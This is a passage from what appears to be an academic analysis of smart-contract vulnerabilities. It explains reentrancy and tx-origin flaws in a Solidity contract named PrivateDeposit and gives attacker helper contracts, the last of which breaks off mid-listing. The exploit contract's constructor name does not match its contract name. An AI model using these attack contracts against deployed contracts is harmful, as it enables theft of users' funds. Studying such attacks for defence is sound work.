 
(ii) In line 24, the *call.value* operation contains both *reentrancy-eth* and *reentrancy-events* bugs. The state variable update operation ''balances[msg.sender] -= \_am'' and the event logging operation ''TransferLog.AddMessage(msg.sender, msg.value, "Deposit")'' both occur after the *call.value*, allowing a malicious attacker to perform a reentrancy attack. Specifically, the attacker can construct a helper attack contract *PrivateDepositExploit*, which contains a callback fallback function that calls the function ''CashOut()'', as shown in Listing \ref{listing:chap6_PrivateDeposit-reentrancy-eth-attack}. When the attacker executes the function ''exploitcall()'' to sequentially perform the deposit and withdrawal operations on the *PrivateDeposit* contract, the execution of *CashOut()* triggers the callback function of the *PrivateDepositExploit* contract. This causes *CashOut()* to be called repeatedly. Since the account balance has not yet been updated and the transfer operation event has not been logged, the attacker can repeatedly claim the transferred amount until the gas resources are exhausted or the *PrivateDeposit* contract balance is insufficient. As in the previous reentrancy example, the attacker can eventually call the helper contract’s function ''get\_money()'' to obtain the entire balance of the helper contract and then destroy the contract.

*Log* contract.
```
	contract Log {
		struct Message {
			address Sender;
			string  Data;
			uint Val;
			uint  Time;
		}
		Message[] public History;
		Message LastMsg;
		function AddMessage(address _adr,uint _val,string _data) public {
			LastMsg.Sender = _adr;
			LastMsg.Time = now;
			LastMsg.Val = _val;
			LastMsg.Data = _data;
			History.push(LastMsg);
		}
	}
```

The helper contract for the *tx-origin* bug attack on the *PrivateDeposit* contract.
```
	contract Log {
		address privateDeposit_address = "0x..."; //Replace the real address of the *PrivateDeposit} contract
		function getMoney() public {
			PrivateDeposit privateDeposit = PrivateDeposit(privateDeposit_address);
			privateDeposit.setLog(address(this));
		}
		function AddMessage(address _adr,uint _val,string _data) public {
			require(false);
		}
	}
```

The helper contract for the *reentrancy-eth* bug attack on the *PrivateDeposit* contract.
```
	contract PrivateDepositExploit {
		address owner; //Attack settings
		PrivateDeposit privateDeposit;
		uint callvalue;
		function ReentranceExploit() payable{
			owner = msg.sender;
		}
		function exploitcall(PrivateDeposit privateDeposittmp) payable{
			privateDeposit = privateDeposittmp;
			callvalue = msg.value;
			privateDeposittmp.call{value: callvalue}(abi.encodeWithSignature("Deposit()"));
			privateDeposittmp.CashOut(callvalue);
```